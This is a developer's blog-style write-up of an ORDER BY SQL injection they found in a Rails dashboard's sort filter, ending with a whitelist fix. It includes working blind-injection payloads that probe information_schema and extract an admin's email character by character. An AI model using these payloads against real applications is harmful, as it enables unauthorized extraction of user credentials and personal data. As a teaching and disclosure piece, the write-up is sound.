

# SQL Injection

This story can be described as "Broke something and was rewarded for it".

During one of my tasks on the project I'm worked on Dashboard improvements.

Dashboard - it's just main page for users with different types of entitites (showed by cards) and filters in sidebar (search by keyword, order, filter by type)



Here the HTML code of `Sort` filter.

```html
<select name="order_filter" id="order_filter" class="form-control custom-select">
  <option value="last_seen desc">Recent First</option>
  <option value="created desc">Date Created ⬇</option>
  <option value="created asc">Date Created ⬆</option>
  <option value="title asc">A-Z</option>
  <option value="title desc">Z-A</option>
</select>
```

Field name for ordering and order in one place with space between.

Put your first thought that came to your mind in the comments 😄

My first thought was "Why `value` looks pretty similar to sql request part?".

I decided to take a deeper look into it and found that we definitely pass it as

```ruby
scope = scope.filter_results(keyword: @keyword, state_filter: @state_filter, order_filter: params[:order_filter])
```

where `filter_results` it's just a concern method which calls `state_filter` and `order_filter` on model if exists

So, in model we just have this:

```ruby
scope :keyword, -> (keyword) { where("title like ?", "%#{keyword}%") }
scope :state_filter, -> (state) { where( state: state ) }
scope :order_filter, -> (order_filter) { reorder(order_filter)} # <- IMPORTANT LINE
```

> **ActiveRecord::QueryMethods#reorder**
Replaces any existing [order](https://apidock.com/rails/ActiveRecord/QueryMethods/order) defined on the relation with the specified [order](https://apidock.com/rails/ActiveRecord/QueryMethods/order).
`User.order('email DESC').reorder('id ASC') # generated SQL has 'ORDER BY id ASC'`

Source: [https://apidock.com/rails/ActiveRecord/QueryMethods/reorder](https://apidock.com/rails/ActiveRecord/QueryMethods/reorder)

Hello! Let's play with it a little. Firstly I decided to test an abitity to pass diffeerent symbols into query and it works well.

I changed one of HTML filter options to different column names and symbols like brackets and it works well. So, we have the hole. Let's put our finger into it.


So, how could it help us get some data from table? We able to do some condition and get the result which can be reflected on cards order on dashboard:


Do you remember this game from Tarantino's **Inglorious Bastards** film? 

When guys put stickers with name of some person onto theirs foreheads and trying to guess this person name by using only questions with answers "**Yes**" or "**No**".


Useful construction for `ORDER` sql injection is a

```sql
(CASE WHEN condition THEN first_coumn_name ELSE second_column_name END)
```

or

```sql
SELECT IF (condition, first_column_name, second_column_name)
```

We just need to find `condition` (as question) and two column names to see the result and put it as `ORDER BY` value (like `Yes` and `No` answers)

What could we put into the `condition` part? Everything. Literally everything.

How about this?

```sql
SELECT IF ((SELECT count(*) FROM information_schema.columns WHERE COLUMN_NAME = 'is_admin' AND table_name = 'users' LIMIT 1)>0, 'YES', 'NO');
```

If we have `is_admin` column in `users` table it should return `YES`

Let's put in into query with column names for sorting:

```sql
(SELECT IF ((SELECT count(*) FROM information_schema.columns WHERE COLUMN_NAME = 'admin' AND table_name = 'users' LIMIT 1)>0, title, created_at))
```


First card is `Fundico` and second is `Area`. There are no `is_admin` column in `users` table. Let's try just `admin` instead:


Here we go! Now we know that we have `admin` column in our `users` table.

P.S. The full query with injected code looks like this:

```sql
SELECT `table_1`.* FROM `table_1` WHERE `table_1`.`id` IN 
  (SELECT DISTINCT `table_2`.`deal_id` FROM `table_2` LEFT OUTER JOIN `team_members` 
    ON `team_members`.`cool_dude_id` = `table_2`.`id` 
    WHERE `table_2`.`state` != -1 AND (table_2.user_id=*** or team_members.user_id=***)) 
  ORDER BY (SELECT IF ((SELECT count(*) FROM information_schema.columns 
    WHERE COLUMN_NAME = 'admin' AND table_name = 'users' LIMIT 1)>0, title, created_at))
```

Let's find the rest of the data by analogy. Firstly we need to find `email` of any admin user to get access to the system.

We could do this symbol by symbol using ASCII table:


We just need to paste all symbols one by one and look for match

```sql
SELECT IF ((SELECT ASCII(SUBSTRING(email, 1, 1)) FROM users where admin = true LIMIT 1)=105, title, created_at)
```

This query returns true if first ASCII code of symbol in `email` of first `admin` is equals `105` (I.e. first symbol of email is `i`)

Then we go for second symbol using `ASCII(SUBSTRING(email, 2, 1))` and find all symbols one by one.

**Conclusion**: We able to find any information using this hole like credentials of all users, phones, addresses and so on. Always be careful and try not to use strings for searches and filters in Rails.

Rails is well enough protected from vulnerabilities, but nothing can save you from your own mistakes. 

Use wrappers, like hashes and arrays. Don't use `User.where("name = '#{params[:name]'")`

Use `User.where(["name = ?", "#{params[:name]}"])` or `User.where({ name: params[:name] })` instead.

This vulnerablity can be fixed using just one line for example.

```ruby
ORDER_FILTERS = { title_asc: 'title asc', created_at_asc: 'created_at asc'}
scope = scope.filter_results(order_filter: ORDER_FILTERS[params[:order_filter]])
```
